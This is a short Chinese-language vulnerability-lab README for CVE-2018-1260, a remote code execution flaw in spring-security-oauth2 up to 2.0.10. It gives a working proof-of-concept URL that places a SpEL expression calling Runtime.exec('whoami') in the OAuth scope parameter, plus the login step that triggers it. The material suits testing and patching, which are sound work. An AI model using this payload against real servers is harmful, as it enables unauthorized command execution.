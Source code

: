 ## RCE with spring-security-oauth2【CVE-2018-1260】

测试镜像

- src/spring-security-oauth2/2.0.10

影响版本

- spring-security-oauth2 <= 2.0.10

参考链接

- [RCE with spring-security-oauth2 分析](https://xz.aliyun.com/t/2330)

Poc

访问url：

```
http://127.0.0.1/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22whoami%22%29%7D
```

在返回的登陆页面随意输入账号密码，点击login，触发命令执行
